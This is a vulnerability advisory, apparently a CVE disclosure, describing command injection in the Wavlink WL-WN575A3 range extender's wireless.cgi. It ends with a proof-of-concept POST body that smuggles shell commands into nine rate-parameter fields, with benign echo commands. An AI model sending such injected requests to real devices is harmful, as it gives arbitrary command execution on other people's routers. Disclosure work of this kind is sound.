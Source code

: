 # Information

**Vendor of the products:**    WAVLINK

**Vendor's website:**    [https://www.wavlink.com/en_us](https://www.wavlink.com/en_us "https://www.wavlink.com/en_us")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**    Wavlink WL-WN575A3

**Affected firmware version:**    RPT75A3.V4300.201217

**Firmware download address:**     [https://www.wavlink.com/en_us/firmware/details/fac744bd61.html](https://www.wavlink.com/en_us/firmware/details/fac744bd61.html "https://www.wavlink.com/en_us/firmware/details/fac744bd61.html")

# Overview

`Wavlink WL-WN575A3 RPT75A3.V4300.201217` has several command injection vulnerabilities detected at function `obtw`. Attackers can send `POST` request messages to `/cgi-bin/wireless.cgi` and inject evil commands into parameter `CCK_1M` or `CCK_5M` or `OFDM_6M` or `OFDM_12M` or `HT20_MCS_0` or `HT20_MCS_1_2` or `HT40_MCS_0` or `HT40_MCS_32` or `HT40_MCS_1_2` to execute arbitrary commands.

# Show the product

`Wavlink WL-WN575A3` is a AC1200 Dual-band Wi-Fi Range Extender. The test version here is `RPT75A3.V4300.201217`.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/0.jpg)

# Vulnerability details

The vulnerability is detected at `/etc_ro/lighttpd/www/cgi-bin/wireless.cgi`.

At first, from the `_start` entry enters, and then the `ftext` function is executed.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/5.jpg)

In the function `ftext`, we find that when bypassing the check of `wlan_conf` and the content of `page` field is `obtw`, we can execute the `obtw` function.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/6.jpg)

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/7.jpg)

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/8.jpg)

In the function `obtw`, the program uses function `web_get` to obtain the content of parameter `obtw_enable` , `CCK_1M` , `CCK_5M` , `OFDM_6M` , `OFDM_12M` , `HT20_MCS_0` , `HT20_MCS_1_2` , `HT40_MCS_0` , `HT40_MCS_32` and `HT40_MCS_1_2` which are sent by `POST` request. Then, when `obtw_enable != 0`, the content of other parameters are formatted into a string passed as an argument to the function `do_system` which can execute system commands.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/4.jpg)

Above all, attackers can send `POST` request messages to `/cgi-bin/wireless.cgi` and let `wlan_conf=2860 & page=obtw` and inject evil commands into parameter `CCK_1M` or `CCK_5M` or `OFDM_6M` or `OFDM_12M` or `HT20_MCS_0` or `HT20_MCS_1_2` or `HT40_MCS_0` or `HT40_MCS_32` or `HT40_MCS_1_2` to execute arbitrary commands.

# POC

Send the following to the URL `http://wifi.wavlink.com/cgi-bin/wireless.cgi` by `POST` request.

```
wlan_conf=2860
&page=obtw
&obtw_enable=1
&CCK_1M=;echo 1 >> /etc_ro/lighttpd/www/data.html;
&CCK_5M=;echo 2 >> /etc_ro/lighttpd/www/data.html;
&OFDM_6M=;echo 3 >> /etc_ro/lighttpd/www/data.html;
&OFDM_12M=;echo 4 >> /etc_ro/lighttpd/www/data.html;
&HT20_MCS_0=;echo 5 >> /etc_ro/lighttpd/www/data.html;
&HT20_MCS_1_2=;echo 6 >> /etc_ro/lighttpd/www/data.html;
&HT40_MCS_0=;echo 7 >> /etc_ro/lighttpd/www/data.html;
&HT40_MCS_32=;echo 8 >> /etc_ro/lighttpd/www/data.html;
&HT40_MCS_1_2=;echo 9 >> /etc_ro/lighttpd/www/data.html;
```

# Review Vulnerabilities

At first, we confirm that the page `/data.html` does not exist.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/1.jpg)

Then, we use `HackBar` to send the `POC` above. **We inject commands that output `1` to `9` in turn into each parameter.**

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/2.jpg)

Finally, we detect that the page `/data.html` has been created and the number `1` to `9` are displayed on the page.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/3.jpg)

So far, we have verified that **the all above nine parameters can be vulnerability points injected by arbitrary commands**.
